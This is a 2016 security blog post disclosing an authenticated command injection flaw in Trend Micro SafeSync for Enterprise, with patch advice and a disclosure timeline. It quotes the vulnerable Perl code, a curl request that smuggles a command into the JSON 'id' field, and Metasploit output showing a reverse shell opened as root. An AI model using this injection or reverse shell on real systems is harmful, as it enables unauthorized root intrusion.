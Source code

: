 ```yaml
---
layout: post
title:  "Trend Micro Bug Hunting - Part II"
date:   2016-09-06 07:00:00
comments: true
categories: pentesting trendmicro
---
```



Trend Micro Safe Sync for Enterprise is affected by a remote command execution vulnerability. This vulnerability can be exploited by authenticated user on the web administration panel of Safe Sync for Enterprise to gain remote command execution with root privileges.

From Trend Micro documentation:

> Trend Micro(TM) SafeSync for Enterprise(TM) allows enterprises to securely synchronize, share, and manage corporate data. Deployed on premise and in a private cloud, SafeSync provides file encryption and document tagging to prevent unauthorized access to sensitive data. SafeSync also supports file version control and redundant file backup.
	       
I recommend anyone running SafeSync for Enterprise to apply the critical patch released by Trend Micro, available at the following location:

* Safesync Enhancement Pack 1 (SSFE 3.2) - [http://downloadcenter.trendmicro.com/index.php?regs=NABU&clk=latest&clkval=4887&lang_loc=1](http://downloadcenter.trendmicro.com/index.php?regs=NABU&clk=latest&clkval=4887&lang_loc=1)

Trend Micro Advisory is available on their [business support website](https://success.trendmicro.com/)

#### Affected Versions

* Trend Micro Safe Sync for Enterprise up to version 3.2

### Authenticated RCE - Technical Description

The following Perl script do not sanitize user inputs prior to using them as parameters of system commands:

* /opt/SingleInstaller/MgmtUI/lib/MgmtUI/Controller/api/admin/ad.pm

An authenticated user can abuse this by injecting his own commands using different kind of operators such as &&, ; , >, <.

Let's look at the vulnerable component:

**/opt/SingleInstaller/MgmtUI/lib/MgmtUI/Controller/api/admin/ad.pm [lines 747-772]**

In the excerpt below, we can see that ```$server_id``` is directly initialiazed from unsanitized json data values and fed
to ad_changed_sync.py command as ```--sync``` and ```--updatehost``` parameters.

{% highlight perl %}
sub ad_sync_now_PUT {
  my ( $self, $c ) = @_;
  my $reqdata = $c->req->data;
  my $server_id = $reqdata->{id};

  my $result;
  eval {
    system("/opt/SingleInstaller/ad_module/ad_python/bin/python /opt/SingleInstaller/ad_module/ad_changed_sync.py --sync $server_id  --updatehost $server_id &");
  };
  my $e;

  if ( $e = Exception::Class->caught('InternalErrorException') ) {
    $c->response->status(500);
    $result = {
      code  => 'ERROR_INTERNAL_ERROR',
      error => $e->description
    };
  } else {
    $c->response->status(200);
    $result = {};
  }
  $c->stash->{json} = $result;
  $c->forward('View::JSON');
}
{% endhighlight %}


From a client point of view, this would happen like this:

<pre style="background-color:black; font-size:10pt;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
$ curl -X PUT -k -i 'https://safesync.local:3443/api/admin/ad/ad_sync_now' -H 'Accept: */*' -H 'Host: safesync.local:3443' -H 'Content-Type: application/json; charset=utf-8' -H 'Referer: https://safesync.local:3443/admin_ldap_integration.html' -H 'Cookie: mgmtui_session=268b871790680ba79c5de832b18549e6cb908e16' --data '{"id":"1; INJECTED COMMAND"}
</pre>

### Proof-of-Concept

Take a look at the Metasploit [module](https://github.com/QKaiser/metasploit-framework/blob/master/modules/exploits/linux/http/trendmicro_safesync_exec.rb) I wrote. It works to get a reverse shell as root but in a weird way, using interactive `sh` and FIFO files. This is because the injection happen within a `sh -c 'command'` call, meaning it will raise a "file descriptor not found" if you try the usual reverse shell in bash.

On the plus side, you can always use python if you can't live without tty.

<pre style="background-color:black; font-size:10pt;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
msf exploit(trendmicro_safesync_exec) > run
[*] Started reverse TCP handler on kali.local:4444
[*] Successfully logged in.
[*] Exploiting...
[*] Command shell session 12 opened (kali.local:4444 -> safesync.local:47333) at 2016-09-06 13:19:29 -0400
[*] Command Stager progress - 100.00% done (690/690 bytes)

/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# python -c 'import pty; pty.spawn("/bin/bash")'
root@appliance1:/#
</pre>

I doubt I'll try to merge the module upstream until I get it to work in a generic way (support for meterpreter stager).

### Conclusion

Once again, Trend Micro vulnerability team was great in handling this coordinated disclosure.

Part III will discuss yet another Trend Micro product where I managed to be greeted with ```#```. If everything goes as expected, advisory should be released by September 30th.


### Disclosure Timeline

* 2016-07-20: Advisory sent to Trend Micro 
* 2016-07-22: Trend Micro acknowledge the issue
* 2016-08-11: Trend Micro released patch
* 2016-09-06: Advisory publication
